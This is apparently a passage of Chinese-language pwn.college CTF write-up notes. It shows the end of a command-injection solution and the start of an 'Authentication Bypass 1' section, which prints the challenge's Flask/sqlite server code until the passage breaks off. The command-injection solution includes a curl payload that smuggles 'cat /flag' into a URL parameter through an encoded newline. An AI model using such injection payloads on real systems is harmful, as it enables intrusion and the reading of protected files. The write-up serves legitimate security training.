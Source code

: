 为了到达

```
ls -l .
cat /flag
```

具体：

```bash
curl -v http://challenge.localhost:80/?directory=.%0Acat%20%2Fflag
```



# 09-Authentication Bypass 1

## 问题描述

一大串代码

```python3
hacker@web-security~authentication-bypass-1:~$ cat /challenge/server 
#!/opt/pwn.college/python

import tempfile
import sqlite3
import flask
import os

app = flask.Flask(__name__)

# Don't panic about this class. It simply implements a temporary database in which
# this application can store data. You don't need to understand its internals, just
# that it processes SQL queries using db.execute().
class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()
# https://www.sqlite.org/lang_createtable.html
db.execute("""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [os.urandom(8)])
# https://www.sqlite.org/lang_insert.html
db.execute("""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("username")
    password = flask.request.form.get("password")
    if not username:
        flask.abort(400, "Missing `username` form parameter")
    if not password:
        flask.abort(400, "Missing `password` form parameter")

    # https://www.sqlite.org/lang_select.html
    user = db.execute("SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
    if not user:
```
